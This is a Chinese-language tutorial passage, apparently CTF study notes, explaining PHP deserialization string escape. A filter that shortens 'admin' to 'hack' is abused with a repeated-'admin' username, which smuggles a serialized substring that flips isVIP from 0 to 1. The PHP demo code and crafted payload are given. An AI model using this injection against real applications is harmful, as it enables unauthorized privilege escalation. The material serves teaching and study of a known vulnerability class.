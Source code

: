 ```
输出结果：
O:4:"user":3:{s:8:"username";s:5:"hack";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
```

目标字串和现有字串比较

```
";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}	// 现有子串
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}	// 目标子串，长度为47
";s:8:"password";s:6:" //下一个可控变量字符串，长度为22
因为过滤时，admin变为hack，每出现一次admin，就会减少一个字符，和上面字符变多的情况相反，随着admin的数量增多，现有子串后面会逐渐缩短。
因为每次过滤的时候都会少1个字符，因此将admin字符重复22遍，使得下一个可控变量字符串（这里的22遍并不一定准确，因为有双引号的干扰）
```

```php
<?php
class user
{
	public $username;
	public $password;
	public $isVIP;

	public function __construct($u,$p)
	{
		$this->username = $u;
		$this->password = $p;
		$this->isVIP = 0;
	}
}

function filter($s)
{
	return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

```
输出结果：
O:4:"user":3:{s:8:"username";s:110:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}

s后面是110，需要读取到110个字符
从第一个引号开始，110个字符如下：
hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:6:"

123456这个位置变成可控变量，在这里添加目标子串";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}
```
